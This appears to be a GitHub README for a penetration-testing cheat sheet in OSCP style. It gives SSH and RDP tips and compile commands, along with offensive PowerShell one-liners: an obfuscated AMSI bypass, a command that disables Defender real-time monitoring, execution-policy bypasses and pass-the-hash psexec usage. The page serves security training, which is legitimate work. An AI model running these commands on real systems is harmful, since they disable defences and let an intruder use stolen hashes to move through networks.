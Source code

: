 # Infrastructure cheatsheet
* [General](#General)
   * [Buffer overflow](bufferoverflow.md)
   * [Metasploit](metasploit.md)
* [Enumeration](enumeration.md)
* [Exploitation](exploitation.md)
* [Privilege Escalation Windows](privesc_windows.md)
* [Privilege Escalation Linux](privesc_linux.md)
* [Pivoting](pivoting.md)

# General
## Other great cheatsheets
- https://github.com/CountablyInfinite/oscp_cheatsheet
- https://github.com/frizb/MSF-Venom-Cheatsheet/blob/master/README.md

#### Static binaries
- https://github.com/andrew-d/static-binaries
- https://github.com/ernw/static-toolbox/releases

#### Python error
When receiving the error “/usr/bin/env: ‘python\r’: No such file or directory when running an python exploit.
1.	Open the python file in vim
2.	Use the command ```:set ff=unix```
3.	Save the file. ```:wq```

#### SSH key files
ssh key files needs to be permission 600
```
sudo chmod 600 <FILE>
```

#### SSH allow diffie helman
```
ssh <USER>@<TARGET> -oKexAlgorithms=+diffie-hellman-group1-sha1
```

#### RDP commands
```
xfreerdp /d:<DOMAIN> /u:<USERNAME> /v:<TARGET IP> +clipboard
rdesktop -d <DOMAIN> -u <USERNAME> -p <PASSWORD>
```

#### Autorecon
https://github.com/Tib3rius/AutoRecon
```
autorecon -t /path/to/targets
```

## CMD
#### Find string
```
| findstr /I “<FIND STRING>”
```

#### Ignore string
```
| findstr /v “<IGNORE STRING>” 
```

## Powershell
#### Powershell flags
- ```-nop```: (```-noprofile```) which instructs powershell not to load the powershell user profile.
-	```-w hidden```: to avoid creating a window on the user’s desktop
-	```-e```: (```-EncodedCommand```) use base64 encoding

#### Start as admin
```
powershell.exe Start-Process cmd.exe -Verb runAs
```

#### AMSI Bypass
```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

#### Disbale AV (Requires local admin)
```
Set-MpPreference -DisableRealtimeMonitoring $true
```

### Powershell execution policy
#### Get execution policy
```
Get-ExecutionPolicy -Scope CurrentUser
```

#### Bypass execution policy flag
```
-ExecutionPolicy Bypass
```

#### Disable execution policy
```
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

#### Impacket PSexec impacket
If no LM Hash use an empty one: ```aad3b435b51404eeaad3b435b51404ee```
```
python3 psexec.py -hashes <LMHASH>:<NTHASH> <DOMAIN>/<USERNAME>@<TARGET>
python3 psexec.py <DOMAIN>/<USERNAME>:<PASSWORD>@<TARGET>
```

## Compiling
#### Compile on linux
```
gcc
```

#### Cross compile exploit code
```
sudo apt install mingw-64
```

#### Compile 32bit Windows
```
i686-w64-mingw32-gcc something.c -o something.exe
```

#### Compile 64bit Windows
```
x86_64-w64-mingw32-gcc something.c -o something.exe
```

#### Compile 32 bit Linux
```
gcc -Wall -o exploit X.c -Wl,--hash-style=both -m32
```
